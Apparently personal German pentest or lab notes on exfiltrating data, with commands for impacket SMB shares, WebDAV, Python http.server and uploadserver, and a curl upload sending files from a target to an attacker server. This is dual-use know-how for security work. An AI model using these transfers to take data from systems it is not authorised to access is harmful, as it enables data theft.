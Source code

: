  
 #exfil
 
---
## Windows

### SMB Share

**Angreifer**
Einen share auf port 445 erstellen. **Zugangsdaten werden ab Smbv2 benötigt!** 

```bash
sudo impacket-smbserver -username pwn -password pwn -debug -smb2support -ip LHOST SHARENAME /local/path/share
```

**Zielsystem**
Ein neues Smbmapping unter `P:` erstellen:

```powershell
New-SmbMapping -LocalPath 'P:' -RemotePath \\RHOST\SHARENAME -username pwn -password pwn
```

Dateien können per `cp path/soruce path/dest` kopiert werden. Mit Zugriff per RDP kann der Share auch über den File Explorer benutzt werden.

### WebDAV

**Angreifer**
Einen WebDAV Server mit anonymous login im momentanen Ordner auf allen Interfaces und Port 80 starten.

```bash
~/.local/bin/wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root $(pwd)
```

---

## Universal

### Python simple http.server

Dateien können auf dem System gehostet werden wenn Phyton installiert ist

```bash
# Den momentanen Ordner bereitstellen
python3 -m http.server
# Spezifischen Pfad bereitstellen
python3 -m http.server -d /path/dir
```

### Python upload server

Falls ein bereitstellen der Daten per http nicht funktioniert können diese auch an einen Server hochgeladen werden.

**Angreifer**
Python server starten

```bash
python -m uploadserver -d /path/exfil
```

**Zielsystem**
Dateien per curl an den upload Server posten

```bash
curl -X POST http://127.0.0.1:8000/upload -F 'files=@multiple-example-1.txt' -F 'files=@multiple-example-2.txt'
```

## Todo

- [ ] Datentransfer
- [x] SMB Share
- [ ] WebDAV
	- [ ] WebDAV: Zielsystem fehlt
- [x] Python simple http.server ✅ 2024-07-26
- [/] Python uploadserver
	- [ ] Python uploadserver: Powershell Beispiel